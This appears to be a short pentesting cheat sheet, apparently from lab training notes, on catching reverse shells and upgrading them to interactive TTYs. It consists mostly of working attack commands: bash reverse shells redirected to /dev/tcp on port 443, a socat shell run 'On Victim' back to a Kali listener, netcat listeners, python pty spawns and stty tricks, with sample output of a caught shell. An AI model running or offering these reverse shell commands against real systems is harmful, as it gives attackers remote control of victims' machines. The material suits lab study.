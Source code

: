 
### Shell/Interractive

When the shell is non interactive, we can invoke an interactive shell (no feedback when entering commands), like this :

```bash
nc -vn 10.11.0.128 4444
(UNKNOWN) [10.11.0.128] 4444 (?) open
python -c 'import pty; pty.spawn("/bin/bash")'
student@debian:~$
```

Other ways :

[https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

On Kali (listen):

```bash
$ socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On Victim (launch):

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```


```bash
stty raw -echo ; fg ; reset
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' 
ctrl + z 
stty raw -echo 
fg
```


```
stty raw -echo; fg
```



/bin/bash -i > /dev/tcp/192.168.119.191/443 0<&1 2>&1'

/bin/bash -i >& /dev/tcp/192.168.119.191/443 0>&1

wrapped :
bash -c '/bin/bash -i >& /dev/tcp/192.168.119.191/443 0>&1'

### Recomandations

check :

```bash
$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.119.191] from (UNKNOWN) [10.11.1.8] 32855
bash: no job control in this shell
bash-3.00$ tty
not a tty
bash-3.00$ 
```
